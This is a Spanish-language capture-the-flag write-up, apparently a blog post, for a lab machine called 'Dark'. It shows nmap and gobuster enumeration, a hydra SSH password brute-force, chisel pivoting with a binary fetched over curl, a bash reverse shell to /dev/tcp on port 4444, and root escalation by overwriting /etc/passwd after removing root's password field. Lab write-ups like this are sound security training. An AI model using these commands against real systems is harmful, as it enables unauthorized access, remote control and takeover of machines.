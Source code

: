 ```yaml
---
layout: post
title: "Dark"
date: 2024-12-3
categories: [pentesting]
image: /assets/images/imagen.jpg
---
```


iniciamos la maquina 

![[Pasted image 20241128143740.png]](/imagenes/Pasted%20image%2020241128143740.png)

escaneamos los puertos con nmap `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 10.10.10.0/24`

![[Pasted image 20241128143914.png]](/imagenes/Pasted%20image%2020241128143914.png)

entramos en el navegador 

![[Pasted image 20241128144002.png]](/imagenes/Pasted%20image%2020241128144002.png)

usamos gobuster para buscar directorios `gobuster dir -u "http://10.10.10.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241128144211.png]](/imagenes/Pasted%20image%2020241128144211.png)

encontramos algo interesante llamado info buscamos en el cuadro de busqueda la ruta info 

![[Pasted image 20241128144306.png]](/imagenes/Pasted%20image%2020241128144306.png)

encontramos un posible usuario y usamos hydra para encontrar la contrasena `hydra -l toni -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2 -t 10`

![[Pasted image 20241128144433.png]](/imagenes/Pasted%20image%2020241128144433.png)

entramos por ssh 

![[Pasted image 20241128144531.png]](/imagenes/Pasted%20image%2020241128144531.png)

desde la maquina atacante `chisel server --reverse -p 1234`; con este comando montamos un servidor en nuestra maquina atacante para que desde la maquina victima se pueda descargar el chisel `python3 -m http.server 80`


![[Pasted image 20241128144914.png]](/imagenes/Pasted%20image%2020241128144914.png)



usamos chisel para hacer pivoting con la maquina 20.20.20.3 que encontramos en info  con este comando descargamos chisel 
`curl -L http://172.0.1/chisel_1.10.1_linux_amd64 -o chisel` le damos permisos de escritura con el comando `chmod +x chisel` y corremos el chisel en modo cliente desde la maquina victima 


![[Pasted image 20241128144657.png]](/imagenes/Pasted%20image%2020241128144657.png)

ya con la conexion agregamos el proxi usamos foxyproxy

![[Pasted image 20241128145158.png]](/imagenes/Pasted%20image%2020241128145158.png)

vamos al navegador con la nueva direccion 20.20.20.3 

![[Pasted image 20241128145258.png]](/imagenes/Pasted%20image%2020241128145258.png)

probamos si se puede ejecutar codigo usamos id 

![[Pasted image 20241128145343.png]](/imagenes/Pasted%20image%2020241128145343.png)

asi que nos enviamos una revershell con el comando `bash -c 'bash -i >& /dev/tcp/20.20.20.2/4444 0>&1'` en la maquina atacante nos colocamos en escucha en el puerto 4444

![[Pasted image 20241128150246.png]](/imagenes/Pasted%20image%2020241128150246.png)

estando dentro le damos el tratamiento tty 
`script /dev/null -c bash`
`Control + z`
`stty raw -echo;fg`
`reset xterm`
`export TERM=xterm`
`export SHELL=bash`

![[Pasted image 20241128145714.png]](/imagenes/Pasted%20image%2020241128145714.png)

nos copiamos el contenido de /etc/passwd en el directorio tmp con el codigo `cp /etc/passwd /tmp/passwd`

![[Pasted image 20241128145849.png]](/imagenes/Pasted%20image%2020241128145849.png)

se modifica el contenido borrando la x en root para no tener la necesidad de una contrasena y luego se actualiza el archivo passwd en etc desde el archivo passwd tmp `curl file:///tmp/passwd -o /etc/passwd` verificamos que se hizo el cambio  `cat /etc/passwd`

![[Pasted image 20241128150102.png]](/imagenes/Pasted%20image%2020241128150102.png)

listo nos hacemos root 

![[Pasted image 20241128150210.png]](/imagenes/Pasted%20image%2020241128150210.png)



